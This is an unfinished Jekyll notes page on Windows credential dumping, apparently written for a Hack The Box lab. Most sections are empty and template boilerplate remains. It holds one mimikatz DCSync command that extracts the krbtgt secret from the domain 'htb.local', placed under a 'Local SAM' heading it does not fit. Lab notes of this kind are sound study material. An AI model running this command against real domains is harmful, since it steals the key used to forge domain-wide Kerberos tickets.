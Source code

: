 ```yaml
---
title: 2 - Credentials Dumping
author: RFS
date: 2023-06-02
category: Layer 2
layout: post
permalink: /credentials-dumping
cover: https://sighingnow.github.io/jekyll-gitbook/assets/dinosaur.gif
---
```




## Local SAM
```powershell
mimikatz# lsadump::dcsync /domain:htb.local /user:krbtgt
```
## NTDS

## LSSAS

> ##### TIP
>
> No need to push generated HTML bundle.
{: .block-tip }

[1]: https://pages.github.com
[2]: https://github.com/sighingnow/jekyll-gitbook/fork
[3]: https://pages.github.com/themes
[4]: https://docs.github.com/en/pages/setting-up-a-github-pages-site-with-jekyll/adding-a-theme-to-your-github-pages-site-using-jekyll
[5]: https://github.com/sighingnow/jekyll-gitbook/fork
[6]: https://github.com/sighingnow/jekyll-gitbook/blob/master/_config.yml
